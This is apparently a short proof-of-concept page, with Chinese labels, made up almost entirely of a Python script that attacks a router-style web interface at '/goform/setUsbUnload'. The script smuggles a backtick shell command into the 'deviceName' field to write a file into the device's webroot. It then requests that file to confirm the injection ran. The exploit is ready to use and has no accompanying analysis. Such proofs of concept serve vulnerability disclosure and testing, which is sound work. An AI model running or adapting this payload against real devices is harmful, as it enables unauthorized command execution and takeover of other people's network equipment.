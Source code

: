![](vx_images/422071266526664.png)



源码：
```
import requests

burp0_url = "http://192.168.0.3:80/goform/setUsbUnload"
burp0_cookies = {"password": "fumcvb"}
burp0_headers = {"Accept": "text/plain, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Origin": "http://192.168.0.3", "Referer": "http://192.168.0.3/status_usb.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
burp0_data = {"deviceName": "undefined`echo aaaaa > ./webroot/1.html`"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)




# import requests

burp1_url = "http://192.168.0.3:80/1.html"
burp1_cookies = {"password": "fumcvb"}
burp1_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
a=requests.get(burp1_url, headers=burp1_headers, cookies=burp1_cookies)
```